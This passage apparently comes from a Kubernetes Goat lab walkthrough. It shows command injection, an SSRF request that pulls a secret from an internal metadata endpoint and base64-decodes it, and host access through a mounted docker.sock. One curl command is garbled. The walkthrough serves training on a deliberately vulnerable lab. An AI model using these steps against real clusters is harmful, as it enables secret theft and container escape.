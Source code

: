 ## Interacting with Metadata server
* Next we can download the official `docker` static binary from the internet [https://download.docker.com/linux/static/stable/](https://download.docker.com/linux/static/stable/). In order to determine which binary we need, we can run the following command for system discovery

```bash
;uname -a
```

After enumerating through the entire key values, finally we can see that there is a flag at http://metadata-db/latest/secrets/kubernetes-goat endpoint.

```bash
curl -H 'content-type: application/json' localhost:1234 --data-raw '{"endpoint":"http://metadata-db/latest/secrets/kubernetes-goat","method":"GET","headers":""}' 
```

* We can decode the secret flag.

```bash
curl -H 'content-type: application/json' localhost:1234 --data-rawsecrets/kubernetes-goat","method":"GET","headers":""}'  | jq .data |tr -d '"'| base64 -d &&echo 
```
* Now we can access the host system by running the following docker commands with passing `docker.sock` UNIX socket

```bash
;/tmp/docker/docker -H unix:///custom/docker/docker.sock images
```
